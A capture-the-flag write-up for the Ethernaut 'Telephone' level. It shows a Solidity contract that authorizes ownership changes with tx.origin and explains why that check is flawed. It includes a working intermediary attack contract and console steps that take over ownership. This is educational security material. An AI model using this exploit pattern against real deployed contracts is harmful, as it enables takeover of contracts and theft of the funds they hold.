 <img src="https://ethernaut.openzeppelin.com/imgs/BigLevel4.svg">

## Target Contract Review
 
Given contarct.

```solidity

// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract Telephone {

  address public owner;

  constructor() public {
    owner = msg.sender;
  }

  function changeOwner(address _owner) public {
    if (tx.origin != msg.sender) {
      owner = _owner;
    }
  }
}
```

As usual, we should change the owner address in the contract to our own address. In this senario, there is function which can change owner's address while ```tx.origin``` is not equal to msg.sender. Shortly, tx.origin is global variable refers to the original external account that started the transaction.

So never use ```tx.origin``` method for authorization, another contract can have a method which will call your contract (where the user has some funds for instance) and your contract will authorize that transaction as your address is in ```tx.origin```.
You should use msg.sender for authorization (if another contract calls your contract msg.sender will be the address of the contract and not the address of the user who called the contract).

## Subverting

My attack contract.

```solidity
pragma solidity ^0.6.0;

import './Telephone.sol';

contract Attack{

    address payable owner;
    Telephone _targetcontract;

    constructor(Telephone _taget) public{
        _targetcontract = Telephone(_taget);
        owner = payable(msg.sender);
    }

    function attack() public{
        	_targetcontract.changeOwner(owner);
    }
}
```
For explain the code, we must first know which contract address the target is.Then call ```changeOwner()``` function as **msg.sender** of telephone contract. As a consequence, we will pass the condition.

Learn contract address.
```shell
await contract
n {methods: {…}, abi: Array(3), address: '0x822962fdf052E28fB48a45ACaf9564F46675d8ed', transactionHash: undefined, constructor: ƒ, …}

```
> 0x822962fdf052E28fB48a45ACaf9564F46675d8ed

Deploy the attack contract and enter target's contract address to constructor.

Check owner of the contract before we deploy the attack contractç

```solidity
await contract.owner()
'0x0b6F6CE4BCfB70525A31454292017F640C10c768'
```
<img src="">

Now check the owner again and we solved again.
```solidity
await contract.owner()
'0x0C39eb3D6C0583AdA92e15C9e7610B609BBdF35b'
```
**_by wasny0ps_**
